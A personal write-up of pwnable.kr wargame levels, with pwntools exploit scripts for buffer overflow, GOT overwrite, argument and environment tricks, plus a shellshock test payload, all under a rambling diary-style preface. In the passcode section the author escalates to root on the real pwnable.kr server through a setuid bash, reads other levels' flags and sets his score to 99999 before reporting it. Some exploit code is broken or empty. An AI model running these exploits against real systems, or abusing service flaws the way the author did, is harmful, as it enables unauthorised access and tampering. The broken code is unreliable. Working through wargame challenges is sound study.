



# pwnable WriteUp

## overview

## Toddler's Bottle

I visited `etenal.me`, I looked a truth life. 

`Etenal`found a Linux Kerbnel Local Privilege Escalation Vulnerability.

Then, I known `Etenal`.

Since 2016, He began to learning some stuff about pwn.

I watched his blog.

So, I also want to write something for me in 5 years.

This is the reason.

I wanna talk some else, about `Etenal` Lockdown diary.

This diary let me get into deepment sad, `Etenal`in 2016 like me in 2022.

But the different is I have no technology background.

`Etenal` is rich now! He can do more things. So, he can choose what to do he like.

I can't. I'm not Ph.D. candidate. Even I can't decide what's my dinner today.

This not important. I just think How I do after I'm rich.

When I was rich, if I will become next `Etenal`?

I'm a theist. But I think I'm a atheist.

I believe that something out of Science.

I think I just believe Tao, that isn't a religion.

Tao is the whole world!

World is truth forever, in the world.

I fear I can't be rich, but I also fear I been rich.

I don't know what is the right aim in the world.

I can guess my life, just simple.No, just boring.

To many things let me sad, let me angry.

Why I can't do it? What a fuking thing.

I want this pretty girl, I want that shy girl.

In the end, these girls hug others.

`Etenal` should can feel my feel.

Now, I looking through the name `Etenal`

The Etenal I also want, and I am long hair.

I think `Etenal` will be my friend.

I think `Etenal` will not be my friend.

So terrible. Thanks of the fucking world.

I want etenal, I join Tao.I learn Tao.

I think people can be etenal in a other way.

But, it's impossiable for me.

I like porn! More than `Etenal`.

How terrible!

The luck is I also like pwn.

Walk by walk in the life!

### fd

This game WriteUp is writen after I pass.

And, this game is very easy.


connect server with user and password

```shell
ls -l
```

Check if something under folder. I found these: 


```shell
cat fd.c
```

Check the source code.


Program verify if command line arguments count more or equal two.

If not, program will puts a hint.

Continue, program convert argv[1] from ASCII to number, and use the number minus 0x1234.

The return value assign to int variable fd.

fd is the first argument of read function.

So, what's the file descriptor?

Let me google it.


So, we need make atoi(argv[1]) = 0x1234.

Then we input `LETMEWIN` and Enter

passed.

EXP: 

```python
from pwn import *

pwn_ssh = ssh(host="pwnable.kr", port=2222, user="fd", password="guest")

sh = pwn_ssh.process(executable="./fd", argv=["./fd", str(int(0x1234))])
sh.send(b"LETMEWIN\n")

print(sh.recvall())
```

### collision

This game I take so many time to solve.

I konw I'm not understand pointer of C program language now!

int* can understand to a int[] in this game.

Understand it, this game is easy.

Let me connect it by ssh.


Then execute command

```shell
ls -l
```


```shell
cat col.c
```


In this game, the check_password function is very important.

Let me analyze it.

At first, it fource convert char* to int*. Means make char to ASCII number and become a number array.

Then, it make 5 number to add.

The res variable is the sum.

In arch i386, variable int occupy 4 bytes.

5 int occupy 20bytes.

 So, in the main function, program will check if strlen(argv[1]) != 20

if hashcode == check_password(argv[1]), we will win it.

Now, we should think how to make hashcode equal the return value after check_password function.

It's so easy, we just need to make 5 number add to equal 0x21DD09EC

In order not to appear \x00, we need make every number don't have number 0.

Then, the minimum number in 5 numbers can't less than 0x11111111.

We let it to be the fifth number.

(0x21DD09EC - 0x11111111)/4


0x21DD09EC - 0x11111111 = 0x10CBF8DB

0x10CBF8DB / 4 = 0x432FE36

 0x432FE36 * 4 = 0x10CBF8D8

0x10CBF8DB -  0x10CBF8D8 = 0x3

payload =  0x432FE36*4 + 0x11111111+3

EXP: 

```python
from pwn import *

pwn_ssh = ssh(host="pwnable.kr", port=2222, user="col", password="guest")

sh = pwn_ssh.process(executable=b"./col", argv=["./col", p32(0x6C5CEC8)*4 + p32(0x6C5CECC)])

print(sh.recvall())
```

### bof

This game I have no solved.

Next, we will solve it together.


At, first, we need connect this game by ssh.

No, anything

Let's look at source code directly.


OK, we need stack overflow to rewrite the variable key.

Let's use IDA to analyze this program.

arch i386 use the stack to pass parameters.

In IDA we can see it also.


0x2c bytes covered to stackaddress 0x00000000

Then, we cover 0x4 * 2 bytes more, we covered to 0x00000008

Variable key size 4 bytes.

We just need cover variable key's value to 0xcafebabe, Then we can enjoy the shell.

EXP: 

```python
from pwn import *

context(os="linux",arch="i386",log_level="debug")

binary = "pwn"

r = remote("pwnable.kr",9000)

payload = b"k"*(0x2c+8)+p32(0xcafebabe)

r.sendline(payload)
r.interactive()
```

### flag 


```shell
file flag
```

Check file infos: 


```shell
checksec flag
```

Use `checksec` to view software protected mode: 



I noticed infomation of Packer.

This binary file packaged by `UPX`

Use command to decompress: 

```shell
upx -d flag
```


Then, use IDA to analyze.



Just a moment ago, I think this game havo no buffer overflow vulnerability.

Later, I found flag in the program.

Track variable flag, we can found this: 


This is the answer.

### passcode

Cool, this game does not provided source code or binary file.

Just give a ssh connection.


Let's connect it first.


OK, There are source code and binary file :D

Analyze source code first: 

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

I think It's easy, just need to make passcode1 == 338150 and passcode2 == 13371337.

If that, we will get the flag.

Let me try.

Oh, It's doesn't work. :)

Just now. I found a way to cat the flag.

But, it's cheating.

Never mind, look!

After I connect the ssh, I user command: 

```shell
find / -perm -u=s -type f 2>/dev/null
```

To find what's program have super permission.


LOOK!!!

The bash in /var/opt is super program!


So, we can get root by it.

Let me try again.

Execute command: 

```shell
/var/opt/bash -p
```

WE GOT ROOT!


Try to cat flag: 


Oh, I cheated it.

If we can cat flag of Other games?

I cat the next game's flag and try.


I passed all of the game now!

Despite this, I still want to pass game without cheating.

Because I want learning somestuff of pwn more.

I hacked pwnable.kr ):


How amazing!

I modified my point to 99999.

After that, I email the admin of pwnable.kr for report vulnerability.

And I got kudos for getting root!


Log it, I am No.1 of pwnable.kr


I looked WriteUp.

I konwn it. Let me tell you: 

We compile it first.

There are 2 warings: 


The right usage should be 

```c
scanf("%d", &passcode1);
```

scanf will get content from terminal-input, and write the content to the address of variable passcode1.

But, the scanf statement mistake to 

```c
canf("%d",passcode1)
```

It's means write content to the initial value of passcode1, So, the program doesn't work.

If we change value of variable passcode1 to the GOT of fflush, and use the first scanf of function login to write a new address.

When execute fflush function, program will execute code of we want in the program code segment.

We can jump to execut the Login OK! statement.

Let's doing it.

In IDA: 


```assembly
var_70= byte ptr -0x70h
......
lea edx, [ebp+var_70]
```

This is value statement.Assign address of [ebp+var_70] to register edx.

So, the address of variable char name[100] should be this.

We can verify it by gdb.


We set a breakpoint after the scanf statement.


Run and input test for variable name.


Check the address, we are right!

Let's to find address of passcode1.

In IDA: 


```assembly
var_10= dword ptr -0x10h
......
mov edx, [ebp+var_10]
```

mov value of [ebp+var_10] to register edx.So [ebp+var_10] should be address of passcode1.

Just set a breakpoint in the login function and run it.


Address of variable passcode1 is **0xffffd0b8**

Let doing in calculate: 


variable name and variable passcode1 have 0x60 bytes apart.

We just filling it and write passcode value to GOT of fflush, Then we input address of Login OK statement.

When call the fflush function will jump to Login OK and cat flag.

Of course, we might to be able to change value of variable passcode1 and passcode2 to specified value to meet the conditions.

But, I don't have a trying.

EXP: 

```python
from pwn import *

pwn_ssh = ssh(host="pwnable.kr",port=2222,user="passcode",password="guest")

shell = pwn_ssh.process(executable="./passcode",argv=["./passcode"])

payload1 = b"k"*0x60 + p32(0x804a004)
payload2 = str(int(0x080485D7))

shell.recvuntil(b"enter you name : ")
shell.sendline(payload1)

shell.recvuntil(b"enter passcode1 : ")
shell.sendline(payload2)

print(shell.recvall())
```

### random


We just cat source code first.


It's seem doesn't set the random seed.

So, we just need debug it to get value of variable key and reverse the algorithm.

We set a breakpoint in call rand. And next instruction. Value of variable key will in the register rax.


And calculate it.


So, We input **3039230856** to do a tring.

I got it.

### input


We cat source code first: 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main(int argc, char* argv[], char* envp[]){
        printf("Welcome to pwnable.kr\n");
        printf("Let's see if you know how to give input to program\n");
        printf("Just give me correct inputs then you will get the flag :)\n");

        // argv
        if(argc != 100) return 0;
        if(strcmp(argv['A'],"\x00")) return 0;
        if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
        printf("Stage 1 clear!\n");

        // stdio
        char buf[4];
        read(0, buf, 4);
        if(memcmp(buf, "\x00\x0a\x00\xff", 4)) return 0;
        read(2, buf, 4);
        if(memcmp(buf, "\x00\x0a\x02\xff", 4)) return 0;
        printf("Stage 2 clear!\n");

        // env
        if(strcmp("\xca\xfe\xba\xbe", getenv("\xde\xad\xbe\xef"))) return 0;
        printf("Stage 3 clear!\n");

        // file
        FILE* fp = fopen("\x0a", "r");
        if(!fp) return 0;
        if( fread(buf, 4, 1, fp)!=1 ) return 0;
        if( memcmp(buf, "\x00\x00\x00\x00", 4) ) return 0;
        fclose(fp);
        printf("Stage 4 clear!\n");

        // network
        int sd, cd;
        struct sockaddr_in saddr, caddr;
        sd = socket(AF_INET, SOCK_STREAM, 0);
        if(sd == -1){
                printf("socket error, tell admin\n");
                return 0;
        }
        saddr.sin_family = AF_INET;
        saddr.sin_addr.s_addr = INADDR_ANY;
        saddr.sin_port = htons( atoi(argv['C']) );
        if(bind(sd, (struct sockaddr*)&saddr, sizeof(saddr)) < 0){
                printf("bind error, use another port\n");
                return 1;
        }
        listen(sd, 1);
        int c = sizeof(struct sockaddr_in);
        cd = accept(sd, (struct sockaddr *)&caddr, (socklen_t*)&c);
        if(cd < 0){
                printf("accept error, tell admin\n");
                return 0;
        }
        if( recv(cd, buf, 4, 0) != 4 ) return 0;
        if(memcmp(buf, "\xde\xad\xbe\xef", 4)) return 0;
        printf("Stage 5 clear!\n");

        // here's your flag
        system("/bin/cat flag");
        return 0;
}
```

OK, we just see the code.

```c
		// argv
        if(argc != 100) return 0;
        if(strcmp(argv['A'],"\x00")) return 0;
        if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
        printf("Stage 1 clear!\n");
```

In the sort, we need to meet these conditions.

1. argc = 100
2. argv[65] = "\x00"
3. argv[66] = "\x20\x0a\x0d"

So, we use python to generate 100 **"",**

```python
"\"\"," * 100
```

So, we meet condition 1.

Then, to meet other conditions.

exp: 

```python
from pwn import *

pwn_ssh = ssh(host="pwnable.kr", port=2222, user="input2", password="guest")
args = ["","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","","",""]
argvv[65] = "\x00"
argvv[66] = "\x20\x0a\x0d"

shell = pwn_ssh.process(executable="./input", argv=args)

shell.recvuntil(b"Stage 1 clear!\n")
print("Stage 1 clear!\n")
```

Stage 1 clear!

Go to stage 2.

```C
        // stdio
        char buf[4];
        read(0, buf, 4);
        if(memcmp(buf, "\x00\x0a\x00\xff", 4)) return 0;
        read(2, buf, 4);
        if(memcmp(buf, "\x00\x0a\x02\xff", 4)) return 0;
        printf("Stage 2 clear!\n");
```

To be honest, I don't know how to input with fd 2.

Let's google it.

OK. we can do it by python like this: 

```python
from pwn import *
import os

args = [b'A'] * 100
args[ord('A')] = b'\x00'
args[ord('B')] = b'\x20\x0a\x0d'

r0, w0 = os.pipe()
r2, w2 = os.pipe()
os.write(w0, b'\x00\x0a\x00\xff')
os.write(w2, b'\x00\x0a\x02\xff')

p = process(executable='/home/input2/input', argv=args, stdin=r0, stderr=r2)
p.interactive()
```

It should put in server to execute.

We need make a folder in /tmp and cd into it. And edit main.py and put code in.

just python main.py, we can pass stager 2.

Go to stager 3.

```C
        // env
        if(strcmp("\xca\xfe\xba\xbe", getenv("\xde\xad\xbe\xef"))) return 0;
        printf("Stage 3 clear!\n");
```

We need set a env, just depend on pwntools.

EXP: 

```python
from pwn import *
import os

args = [b'A'] * 100
args[ord('A')] = b'\x00'
args[ord('B')] = b'\x20\x0a\x0d'

r0, w0 = os.pipe()
r2, w2 = os.pipe()
os.write(w0, b'\x00\x0a\x00\xff')
os.write(w2, b'\x00\x0a\x02\xff')

envp = {"\xde\xad\xbe\xef":"\xca\xfe\xba\xbe"}

p = process(executable='/home/input2/input', argv=args, stdin=r0, stderr=r2, env=envp)
p.interactive()
```

Go to stager 4.

```C
        // file
        FILE* fp = fopen("\x0a", "r");
        if(!fp) return 0;
        if( fread(buf, 4, 1, fp)!=1 ) return 0;
        if( memcmp(buf, "\x00\x00\x00\x00", 4) ) return 0;
        fclose(fp);
        printf("Stage 4 clear!\n");
```

EXP: 

```python
from pwn import *
import os

args = [b'A'] * 100
args[ord('A')] = b'\x00'
args[ord('B')] = b'\x20\x0a\x0d'

r0, w0 = os.pipe()
r2, w2 = os.pipe()
os.write(w0, b'\x00\x0a\x00\xff')
os.write(w2, b'\x00\x0a\x02\xff')

envp = {"\xde\xad\xbe\xef":"\xca\xfe\xba\xbe"}

with open("\x0a", "w") as f:
    f.write(b"\x00\x00\x00\x00")

p = process(executable='/home/input2/input', argv=args, stdin=r0, stderr=r2, env=envp)
p.interactive()
```

Go to stager 5.

```C
from pwn import *
import os

args = [b"A"] * 100
args[ord("A")] = b'\x00'
args[ord("B")] = b'\x20\x0a\x0d'
args[ord("C")] = b"8848"

r0, w0 = os.pipe()
r2, w2 = os.pipe()
os.write(w0, b'\x00\x0a\x00\xff')
os.write(w2, b'\x00\x0a\x02\xff')

envp = {"\xde\xad\xbe\xef":"\xca\xfe\xba\xbe"}

with open("\x0a", "w") as f:
    f.write(b"\x00\x00\x00\x00")

p = process(executable='/home/input2/input', argv=args, stdin=r0, stderr=r2, env=envp)

r = remote("localhost", 8848)
r.sendline(b"\xde\xad\xbe\xef")

p.interactive()
```

OK, port is argv["C"]. I can set it.

We set argv['C'] = b"8848".

EXP: 

```python
from pwn import *
import os

args = [b"A"] * 100
args[ord("A")] = b'\x00'
args[ord("B")] = b'\x20\x0a\x0d'
args[ord("C")] = b"8848"

r0, w0 = os.pipe()
r2, w2 = os.pipe()
os.write(w0, b'\x00\x0a\x00\xff')
os.write(w2, b'\x00\x0a\x02\xff')

envp = {"\xde\xad\xbe\xef":"\xca\xfe\xba\xbe"}

with open("\x0a", "w") as f:
    f.write(b"\x00\x00\x00\x00")

p = process(executable='/home/input2/input', argv=args, stdin=r0, stderr=r2, env=envp)

r = remote("localhost", 8848)
r.sendline(b"\xde\xad\xbe\xef")

p.interactive()
```

### leg


cat source code: 

```c
#include <stdio.h>
#include <fcntl.h>
int key1(){
	asm("mov r3, pc\n");
}
int key2(){
	asm(
	"push	{r6}\n"
	"add	r6, pc, $1\n"
	"bx	r6\n"
	".code   16\n"
	"mov	r3, pc\n"
	"add	r3, $0x4\n"
	"push	{r3}\n"
	"pop	{pc}\n"
	".code	32\n"
	"pop	{r6}\n"
	);
}
int key3(){
	asm("mov r3, lr\n");
}
int main(){
	int key=0;
	printf("Daddy has very strong arm! : ");
	scanf("%d", &key);
	if( (key1()+key2()+key3()) == key ){
		printf("Congratz!\n");
		int fd = open("flag", O_RDONLY);
		char buf[100];
		int r = read(fd, buf, 100);
		write(0, buf, r);
	}
	else{
		printf("I have strong leg :P\n");
	}
	return 0;
}
```

cat asm

```assembly
(gdb) disass main
Dump of assembler code for function main:
   0x00008d3c <+0>:	push	{r4, r11, lr}
   0x00008d40 <+4>:	add	r11, sp, #8
   0x00008d44 <+8>:	sub	sp, sp, #12
   0x00008d48 <+12>:	mov	r3, #0
   0x00008d4c <+16>:	str	r3, [r11, #-16]
   0x00008d50 <+20>:	ldr	r0, [pc, #104]	; 0x8dc0 <main+132>
   0x00008d54 <+24>:	bl	0xfb6c <printf>
   0x00008d58 <+28>:	sub	r3, r11, #16
   0x00008d5c <+32>:	ldr	r0, [pc, #96]	; 0x8dc4 <main+136>
   0x00008d60 <+36>:	mov	r1, r3
   0x00008d64 <+40>:	bl	0xfbd8 <__isoc99_scanf>
   0x00008d68 <+44>:	bl	0x8cd4 <key1>
   0x00008d6c <+48>:	mov	r4, r0
   0x00008d70 <+52>:	bl	0x8cf0 <key2>
   0x00008d74 <+56>:	mov	r3, r0
   0x00008d78 <+60>:	add	r4, r4, r3
   0x00008d7c <+64>:	bl	0x8d20 <key3>
   0x00008d80 <+68>:	mov	r3, r0
   0x00008d84 <+72>:	add	r2, r4, r3
   0x00008d88 <+76>:	ldr	r3, [r11, #-16]
   0x00008d8c <+80>:	cmp	r2, r3
   0x00008d90 <+84>:	bne	0x8da8 <main+108>
   0x00008d94 <+88>:	ldr	r0, [pc, #44]	; 0x8dc8 <main+140>
   0x00008d98 <+92>:	bl	0x1050c <puts>
   0x00008d9c <+96>:	ldr	r0, [pc, #40]	; 0x8dcc <main+144>
   0x00008da0 <+100>:	bl	0xf89c <system>
   0x00008da4 <+104>:	b	0x8db0 <main+116>
   0x00008da8 <+108>:	ldr	r0, [pc, #32]	; 0x8dd0 <main+148>
   0x00008dac <+112>:	bl	0x1050c <puts>
   0x00008db0 <+116>:	mov	r3, #0
   0x00008db4 <+120>:	mov	r0, r3
   0x00008db8 <+124>:	sub	sp, r11, #8
   0x00008dbc <+128>:	pop	{r4, r11, pc}
   0x00008dc0 <+132>:	andeq	r10, r6, r12, lsl #9
   0x00008dc4 <+136>:	andeq	r10, r6, r12, lsr #9
   0x00008dc8 <+140>:			; <UNDEFINED> instruction: 0x0006a4b0
   0x00008dcc <+144>:			; <UNDEFINED> instruction: 0x0006a4bc
   0x00008dd0 <+148>:	andeq	r10, r6, r4, asr #9
End of assembler dump.
(gdb) disass key1
Dump of assembler code for function key1:
   0x00008cd4 <+0>:	push	{r11}		; (str r11, [sp, #-4]!)
   0x00008cd8 <+4>:	add	r11, sp, #0
   0x00008cdc <+8>:	mov	r3, pc
   0x00008ce0 <+12>:	mov	r0, r3
   0x00008ce4 <+16>:	sub	sp, r11, #0
   0x00008ce8 <+20>:	pop	{r11}		; (ldr r11, [sp], #4)
   0x00008cec <+24>:	bx	lr
End of assembler dump.
(gdb) disass key2
Dump of assembler code for function key2:
   0x00008cf0 <+0>:	push	{r11}		; (str r11, [sp, #-4]!)
   0x00008cf4 <+4>:	add	r11, sp, #0
   0x00008cf8 <+8>:	push	{r6}		; (str r6, [sp, #-4]!)
   0x00008cfc <+12>:	add	r6, pc, #1
   0x00008d00 <+16>:	bx	r6
   0x00008d04 <+20>:	mov	r3, pc
   0x00008d06 <+22>:	adds	r3, #4
   0x00008d08 <+24>:	push	{r3}
   0x00008d0a <+26>:	pop	{pc}
   0x00008d0c <+28>:	pop	{r6}		; (ldr r6, [sp], #4)
   0x00008d10 <+32>:	mov	r0, r3
   0x00008d14 <+36>:	sub	sp, r11, #0
   0x00008d18 <+40>:	pop	{r11}		; (ldr r11, [sp], #4)
   0x00008d1c <+44>:	bx	lr
End of assembler dump.
(gdb) disass key3
Dump of assembler code for function key3:
   0x00008d20 <+0>:	push	{r11}		; (str r11, [sp, #-4]!)
   0x00008d24 <+4>:	add	r11, sp, #0
   0x00008d28 <+8>:	mov	r3, lr
   0x00008d2c <+12>:	mov	r0, r3
   0x00008d30 <+16>:	sub	sp, r11, #0
   0x00008d34 <+20>:	pop	{r11}		; (ldr r11, [sp], #4)
   0x00008d38 <+24>:	bx	lr
End of assembler dump.
(gdb) 
```

I don't know about arm assembly. 

So, I learned it a little.

In arm: 

pc is point to the address of the current instruction + 2 instructions.

r0 is return value.

Just this, we can doing it.

key1

```assembly
(gdb) disass key1
Dump of assembler code for function key1:
   0x00008cd4 <+0>:	push	{r11}		; (str r11, [sp, #-4]!)
   0x00008cd8 <+4>:	add	r11, sp, #0
   0x00008cdc <+8>:	mov	r3, pc
   0x00008ce0 <+12>:	mov	r0, r3
   0x00008ce4 <+16>:	sub	sp, r11, #0
   0x00008ce8 <+20>:	pop	{r11}		; (ldr r11, [sp], #4)
   0x00008cec <+24>:	bx	lr
End of assembler dump.
```

r0 = r3

r3 = pc 

pc = the address of the current instruction + 2 instructions = 0x00008cdc +8 (32-bit) = 0x00008ce4

So, key1() = **0x00008ce4**

key2

```assembly
(gdb) disass key2
Dump of assembler code for function key2:
   0x00008cf0 <+0>:	push	{r11}		; (str r11, [sp, #-4]!)
   0x00008cf4 <+4>:	add	r11, sp, #0
   0x00008cf8 <+8>:	push	{r6}		; (str r6, [sp, #-4]!)
   0x00008cfc <+12>:	add	r6, pc, #1
   0x00008d00 <+16>:	bx	r6
   0x00008d04 <+20>:	mov	r3, pc
   0x00008d06 <+22>:	adds	r3, #4
   0x00008d08 <+24>:	push	{r3}
   0x00008d0a <+26>:	pop	{pc}
   0x00008d0c <+28>:	pop	{r6}		; (ldr r6, [sp], #4)
   0x00008d10 <+32>:	mov	r0, r3
   0x00008d14 <+36>:	sub	sp, r11, #0
   0x00008d18 <+40>:	pop	{r11}		; (ldr r11, [sp], #4)
   0x00008d1c <+44>:	bx	lr
End of assembler dump.
```

r0 = r3

r3 = 0x00008d08 + 0x4 = 0x00008d0c

So, key2() = **0x00008d0c**

key3

```assembly
(gdb) disass key3
Dump of assembler code for function key3:
   0x00008d20 <+0>:	push	{r11}		; (str r11, [sp, #-4]!)
   0x00008d24 <+4>:	add	r11, sp, #0
   0x00008d28 <+8>:	mov	r3, lr
   0x00008d2c <+12>:	mov	r0, r3
   0x00008d30 <+16>:	sub	sp, r11, #0
   0x00008d34 <+20>:	pop	{r11}		; (ldr r11, [sp], #4)
   0x00008d38 <+24>:	bx	lr
End of assembler dump.
```

r0 = r3

r3 = lr

lr points to the return address of the function call

So, lr = **0x00008d80**

And key3() = **0x00008d80**

key1() + key2() + key3() = 0x1A770 = 108400(decimal)


We can pass it, maybe ):

Trying......


I got it.

EXP: 

```python
```


### mistake 


Just 1 pt, I think it's easy :D

cat source code

```c
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
        int i;
        for(i=0; i<len; i++){
                s[i] ^= XORKEY;
        }
}

int main(int argc, char* argv[]){

        int fd;
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }

        printf("do not bruteforce...\n");
        sleep(time(0)%20);

        char pw_buf[PW_LEN+1];
        int len;
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }

        char pw_buf2[PW_LEN+1];
        printf("input password : ");
        scanf("%10s", pw_buf2);

        // xor your input
        xor(pw_buf2, 10);

        if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
                printf("Password OK\n");
                system("/bin/cat flag\n");
        }
        else{
                printf("Wrong Password\n");
        }

        close(fd);
        return 0;
}
```

This game is about operator priority

In this code

```c
        int fd;
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }
```

The priority of **< **operator is higher than **=**

**<** happens before **=**

open("/home/mistake/password",O_RDONLY,0400) = 1 and 1 < 0

Then, open("/home/mistake/password",O_RDONLY,0400) < 0 is false = 0

And, fd=open("/home/mistake/password",O_RDONLY,0400 = 0

0 is a file descriptor for stdin.

In the code below

```c
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }
```

Program read 10 chars from stdin.

So, we can control variable pw_buf and pw_buf2.

We just need input 10 chars and input 10 chars ^ 1 after.

e. g. I input **aaaaaaaaaa **first

ord("a") ^ 1 = 96

chr(96) = **`**

Then I input **``````````**

WON!


### shellshock


I have a hunch, this game is interesting.

cat source code.

```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```


There is a bash ):

I google shellshock found something.


It's so old that i don't heard.

Use payload to test.

```shell
env x='() { :;}; echo vulnerable' ./bash -c "echo this is a test"
```


cool!

But the bash not own many permission.

We need with help of shellshock file. 

Because shellshock in group shellshock


I think about how to hack pwnable.kr.

But admin of pwnable.kr is clever.

He set this: 

        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());

Then, bashdoor just have shellshock permission. Haha

### coin1


This is a real game that find counterfeit coin.

We need use dichotomy.

I looked https://n1ght-w0lf.github.io/binary%20exploitation/coin1/

His solution is not a real dichotomy.

He optimized algorithm.

But I'd like to use original dichotomy for study.

EXP: 

```python
from pwn import *
import re

p = remote('localhost', 9007)
print(p.recv())

for i in range(100):
	N, C = re.findall("N=(\d+) C=(\d+)", p.recv())[0]
	N = int(N)
	C = int(C)
	print(N, C)

	start, end = 0, N-1

	while start <= end and C > 0:
		mid = (start + end) // 2
		x = " ".join([str(j) for j in range(start, mid+1)])	# build range list
		p.sendline(x)
		
		res = int(p.recvline()[:-1])
		if res % 10 == 0:
			start = mid+1	# through first half
		else:
			end = mid		# through second half I modifiled
		C -= 1

	while C > 0:	# use all the tries
		p.sendline("0")
		p.recv(1024)
		C -= 1

	p.sendline(str(start))	# final answer
	print(p.recv())

print(p.recv())
```

### blackjack


I checked the rules and tried the game.

I think I should check the source code to see if dealer's points are controlled below a certain value.

```C
// Programmer: Vladislav Shulman
// Final Project
// Blackjack

// Feel free to use any and all parts of this program and claim it as your own work

//FINAL DRAFT

#include <stdlib.h>
#include <stdio.h>
#include <math.h>
#include <time.h>                //Used for srand((unsigned) time(NULL)) command
#include <process.h>             //Used for system("cls") command

#define spade 06                 //Used to print spade symbol
#define club 05                  //Used to print club symbol
#define diamond 04               //Used to print diamond symbol
#define heart 03                 //Used to print heart symbol
#define RESULTS "Blackjack.txt"  //File name is Blackjack

//Global Variables
int k;
int l;
int d;
int won;
int loss;
int cash = 500;
int bet;
int random_card;
int player_total=0;
int dealer_total;

//Function Prototypes
int clubcard();      //Displays Club Card Image
int diamondcard();   //Displays Diamond Card Image
int heartcard();     //Displays Heart Card Image
int spadecard();     //Displays Spade Card Image
int randcard();      //Generates random card
int betting();       //Asks user amount to bet
void asktitle();     //Asks user to continue
void rules();        //Prints "Rules of Vlad's Blackjack" menu
void play();         //Plays game
void dealer();       //Function to play for dealer AI
void stay();         //Function for when user selects 'Stay'
void cash_test();    //Test for if user has cash remaining in purse
void askover();      //Asks if user wants to continue playing
void fileresults();  //Prints results into Blackjack.txt file in program directory

//Main Function
int main(void)
{
    int choice1;
    printf("\n");
    printf("\n");
    printf("\n");
    printf("\n              222                111                            ");
    printf("\n            222 222            11111                              ");
    printf("\n           222   222          11 111                            "); 
